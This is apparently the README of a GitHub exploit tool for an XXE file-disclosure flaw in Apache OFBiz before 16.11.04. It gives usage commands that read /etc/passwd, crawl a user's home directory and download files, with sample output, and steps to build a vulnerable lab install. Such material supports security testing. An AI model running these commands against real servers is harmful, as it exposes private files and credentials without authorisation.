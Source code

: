 # Apache OFBiz XXE
XXE injection (file disclosure) exploit for Apache OFBiz &lt; 16.11.04

## Information
Apache OFBiz, before version 16.11.04, contains two distinct XXE injection vulnerabilities. The public disclosures for each vulnerability can be found below:

* [1] https://seclists.org/oss-sec/2018/q4/12
* [2] https://seclists.org/oss-sec/2018/q4/13

This exploit targets the vulnerability disclosed in link 1. Although this vulnerability was not assigned a CVE (the root cause lies in an outdated library), it is easier to exploit than the vulnerability disclosed in link 2 (CVE-2018-8033), which requires hosting an external DTD that the vulnerable server must reference in each request.

## Usage
### Display a single file
```
$ python exploit.py -u https://localhost:8443 -f /etc/passwd
```
### Crawl through directories
```
$ python exploit.py -u https://localhost:8443 -c /home/bob

[*] DIR: /home/bob
[*] DIR: /home/bob/docs
[*] FILE: /home/bob/docs/proposal.docx
[*] DIR: /home/bob/stuff
[*] DIR: /home/bob/stuff/more-stuff
[*] FILE: /home/bob/stuff/more-stuff/file2.txt
[*] FILE: /home/bob/stuff/more-stuff/secret.txt
[*] FILE: /home/bob/stuff/file3.txt
[*] FILE: /home/bob/file.txt
```
### Download a single file
```
$ python exploit.py -u https://localhost:8443 -f /home/bob/stuff/more-stuff/secret.txt -o ~/local/
$ ls ~/local/
home--bob--stuff--more-stuff--secret.txt
```

## OFBiz setup
Follow the steps below to setup OFBiz 16.11.04 in order to test this exploit. This was performed on Ubuntu.
```
$ sudo add-apt-repository ppa:webupd8team/java
$ sudo apt install oracle-java8-installer 
$ sudo update-alternatives --config java

$ wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-16.11.04.zip
$ unzip apache-ofbiz-16.11.04.zip
$ cd apache-ofbiz-16.11.04/

$ ./gradlew cleanAll loadDefault
$ ./gradlew ofbiz
```
Browse to https://<ip>:8443/ordermgr/control/main to make sure the installation was successful
